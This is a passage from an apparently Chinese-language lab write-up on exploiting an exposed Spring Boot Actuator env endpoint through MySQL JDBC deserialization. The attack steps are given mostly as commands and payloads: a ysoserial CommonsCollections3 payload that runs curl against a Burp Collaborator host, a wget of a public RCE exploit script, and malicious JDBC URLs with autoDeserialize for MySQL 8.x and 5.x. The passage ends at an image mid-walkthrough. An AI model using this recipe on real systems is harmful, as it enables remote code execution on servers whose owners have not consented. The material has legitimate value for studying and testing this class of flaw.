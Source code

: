 查看下pom.xml的mysql-connector-java的依赖为8.0.12,cc依赖为3.2.1:

```plain
<dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>8.0.12</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
            <scope>runtime</scope>
        </dependency>
```

先访问:[http://localhost:9097/actuator/env](http://localhost:9097/actuator/env)

记录好原先的`spring.datasource.url`:

```plain
[application.properties]:6:43"},"spring.datasource.url":{"value":"jdbc:mysql://127.0.0.1:3306/test","origin":"class path resource
```

利用ysoserial生成反序列化payload:

```plain
java -jar ysoserial-0.0.8-SNAPSHOT-all.jar  CommonsCollections3 'curl rb617n72nqnqaj8ijbiw36v7nytohd.burpcollaborator.net' > payload.ser
```

下载rce.py脚本:

```plain
wget --no-check-certificate https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py
```

编辑下脚本的端口3306为3307，避开本机的3306冲突。

**(1)修改变量**

value的值，mysql8.x填入:

```plain
jdbc:mysql://127.0.0.1:3307/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

如果是5.x则是:

```plain
jdbc:mysql://127.0.0.1:3307/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

> 两者区别:

[![](assets/1703152930-7c8fb647b6bd571c24308e30dab01f40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112035-7a2cde9a-d176-1.png)
